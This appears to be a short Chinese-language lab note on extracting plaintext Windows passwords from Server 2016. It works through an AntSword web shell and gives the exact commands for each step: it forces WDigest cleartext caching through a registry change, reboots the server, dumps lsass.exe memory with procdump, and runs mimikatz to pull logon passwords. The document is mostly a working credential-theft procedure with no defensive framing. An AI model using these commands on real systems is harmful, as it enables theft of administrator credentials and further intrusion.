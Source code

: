 #0830 win2016明文密码获取_基础实验

###windows从win10开始，默认不会在 lsass.exe 里存储明文密码，可以在管理员权限下修改注册表，再迫使管理员重新登录，获取明文密码 



###蚁剑链接  打开终端

![image-20210831215758337](#0830 win2016明文密码获取_基础实验/image-20210831215758337.png)

###修改注册表

`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f`

###重启服务器

`shutdown /r /t 0`

![image-20210831215723188](#0830 win2016明文密码获取_基础实验/image-20210831215723188.png)

![image-20210831220629200](#0830 win2016明文密码获取_基础实验/image-20210831220629200.png)

###在当前目录打开终端，执行下面的命令获取内存中的密码信息

`procdump64.exe -accepteula -ma lsass.exe lsass.dmp`

下载生成的lsass.dump到本机

![image-20210831220713776](#0830 win2016明文密码获取_基础实验/image-20210831220713776.png)

###使用mimikatz即可成功抓取明文密码

`mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt`

![image-20210831220955481](#0830 win2016明文密码获取_基础实验/image-20210831220955481.png)

![image-20210831221643974](#0830 win2016明文密码获取_基础实验/image-20210831221643974.png)


